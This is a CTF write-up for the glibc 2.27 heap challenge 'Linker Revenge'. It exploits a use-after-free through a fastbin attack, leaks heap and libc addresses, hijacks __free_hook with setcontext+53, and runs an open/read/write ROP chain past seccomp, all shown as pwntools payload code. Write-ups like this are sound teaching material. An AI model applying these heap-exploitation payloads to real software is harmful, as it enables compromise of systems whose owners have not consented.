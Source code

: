 # Linker Revenge

### Overview

This is heap pwn challenge with the GLIBC given 2.27, the security checks:-

```r
❯ file linker_revenge
linker_revenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=af19ec882ea7b9ada3b35ae3712abbbf109e5dfe, not stripped
❯ checksec linker_revenge
[*] '/home/d4mianwayne/Pwning/CTFs/3kCTF/linker_revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
❯ seccomp-tools dump ./linker_revenge
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL

```

Since Seccomp is enabled, we will do an Open/Read/Write ROP chain to read the flag after getting the RIP control.

### Vulnerability

The vulnerability relies in the `edit_page` function, there exists a UAF vulnerability which can be used to do tamper the metadata of an already `free`'d chunk.

### Exploitation

To exploit this challenge, first off, we take advantage of the fastbin attack, to do so, we first fill the tcache bins of the same size and then malloc 2 chunks and free those chunk, for insance let name them chunk A and chunk B respectively. Upon free'ing the chunk A & B, we overwrote the `chunk[1]->fd = fake_fasbin_chunk` since the chunk A & B size is 0x71, we can overwrite the Chunk A's fd to the address `0x60203d` which proposed a structure of a fastbin chunk.

Fastbin = [chunk A, 0x60203d]

Now, that being said, doing so, in next allocation, we get chunk A and the next will give us the ability to overwrite data stored at `0x60203d + 0x10` and beyond. Since there's a `page` array stored at the BSS section along with the `page_size` table which is used to store the size of the chunks allocated, we will overwrite the `page` array with our desired addresses:-

```py

payload  = b'AAA'
payload += p64(0) * 2
payload += p32(0xff) * 8           # int
payload += p32(1) * 3 + p32(0) * 5 # int
payload += p64(0x602060) # ptr[0] = &page_size
payload += p64(0x602020) # ptr[1] = free@got
payload += p64(0x6020b8) # ptr[2] = ptr[3]

edit(0, payload)
```
Here, we overwrite the `page_size` table with the `0xff` values and the flag variables and then make the `page` array as of following:-

```py
page = [0x602060, free@got, 0x6020b8]
```
> The `0x6020b8` addres points to the 3rd index, 4th element of the `page` array on the BSS.

Now, since RELRO is enabled, we cannot overwrite the `free@got`. We can get a `free` address if we will tend to view the data of the `chunk[1]`.

```py
new(0x408) # chunk 3

heap_base = u64(show(2).strip().ljust(8, b"\x00")) - 0x2290 # ptr[2] -> ptr[3] == heap_chunk  0x410
log.info(f"HEAP:   {hex(heap_base)}")

libc.address = u64(show(1).strip().ljust(8, b"\x00")) - libc.symbols['_IO_2_1_stdout_'] # ptr[1] = free@got
log.info(f"LIBC:   {hex(libc.address)}")
```

Doing that so, we will again overwrite the `page_size` table, this time with bigger size such that it will accept our ROP chain and also make the `page[1]` points to the `__free_hook` address.

```py
payload  = p32(0x4ff) * 8 # page_size -> array
payload += p32(1) * 5 + p32(0) * 3
payload += p64(0x602060) + p64(libc.symbols["__free_hook"]) # ptr[0] = page_size, ptr[1] == __free_hook
edit(0, payload) # ptr[0] = page_table
```

Page table looks like:-

```py
page_array = [0x602060, __free_hook]
```

Now, we will overwrite the `__free_hook` with the `setcontext + 53` to peform a stack pivot to read the flag file, the stack pivot will make the `rsp` points to the `heap` chunk where our ROP chain would be stored :D

```py
edit(1, p64(libc.symbols["setcontext"] + 0x35)) # ptr[1] == __free_hook => setcontexr + 53
```
We need to make the rdi points to the certain address, such that during the call to `setcontext + 53` will make the registers point to the right address, exactly where we want them to be:-

```r
0x7f12c88450a5 <setcontext+53>:  mov    rsp,QWORD PTR [rdi+0xa0]
0x7f12c88450ac <setcontext+60>:  mov    rbx,QWORD PTR [rdi+0x80]
0x7f12c88450b3 <setcontext+67>:  mov    rbp,QWORD PTR [rdi+0x78]
0x7f12c88450b7 <setcontext+71>:  mov    r12,QWORD PTR [rdi+0x48]
0x7f12c88450bb <setcontext+75>:  mov    r13,QWORD PTR [rdi+0x50]
0x7f12c88450bf <setcontext+79>:  mov    r14,QWORD PTR [rdi+0x58]
0x7f12c88450c3 <setcontext+83>:  mov    r15,QWORD PTR [rdi+0x60]
0x7f12c88450c7 <setcontext+87>:  mov    rcx,QWORD PTR [rdi+0xa8]
0x7f12c88450ce <setcontext+94>:  push   rcx
0x7f12c88450cf <setcontext+95>:  mov    rsi,QWORD PTR [rdi+0x70]
0x7f12c88450d3 <setcontext+99>:  mov    rdx,QWORD PTR [rdi+0x88]
0x7f12c88450da <setcontext+106>: mov    rcx,QWORD PTR [rdi+0x98]
0x7f12c88450e1 <setcontext+113>: mov    r8,QWORD PTR [rdi+0x28]
0x7f12c88450e5 <setcontext+117>: mov    r9,QWORD PTR [rdi+0x30]
0x7f12c88450e9 <setcontext+121>: mov    rdi,QWORD PTR [rdi+0x68]
0x7f12c88450ed <setcontext+125>: xor    eax,eax
0x7f12c88450ef <setcontext+127>: ret 

```

The following address/values would be stored:-

```py
payload = b''
payload += b"flag\x00\x00\x00\x00" + p64(0) # rdi + 0x00
payload += p64(0) + p64(0) # rdi + 0x10
payload += p64(0) + p64(0) # rdi + 0x20 --> XXX, r8
payload += p64(0) + p64(0) # rdi + 0x30 --> r9 , XXX
payload += p64(0) + p64(0) # rdi + 0x40 --> XXX, r12
payload += p64(0) + p64(0) # rdi + 0x50 --> r13, r14
payload += p64(0) + p64(0xffffffffffffff9c) # rdi + 0x60 --> r15, rdi
payload += p64(heap_base + 0x2290) + p64(0) # rdi + 0x70 --> rsi, rbp
payload += p64(0) + p64(0) # rdi + 0x80 --> rbx, rdx
payload += p64(0) + p64(0) # rdi + 0x90 --> XXX, rcx
payload += p64(heap_base + 0x2340 - 8)
payload += p64(pop_rax) # rdi + 0xa0 --> rsp, rip
```
Now, the ROP chain:-


```py
# openat(0, "flag", 0)
payload += p64(pop_rax)
payload += p64(257)
payload += p64(syscall)

# read(3, heap, 0x40)

payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(0x0000000000401301)
payload += p64(heap_base) + p64(0)
payload += p64(pop_rdx)
payload += p64(0x40)
payload += p64(syscall)

# write(1, heap, 0x40)
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(0x0000000000401301)
payload += p64(heap_base) + p64(0)
payload += p64(pop_rdx)
payload += p64(0x40)
payload += p64(syscall)

edit(1, payload)
```

Now, delete the page[3] chunk, such that:-

```
free(page[3]) -> __free_hook(ptr[3]) -> setcontext + 53 :  rdi => ptr[3]
```

```py
delete(3)
```
Get the flag :D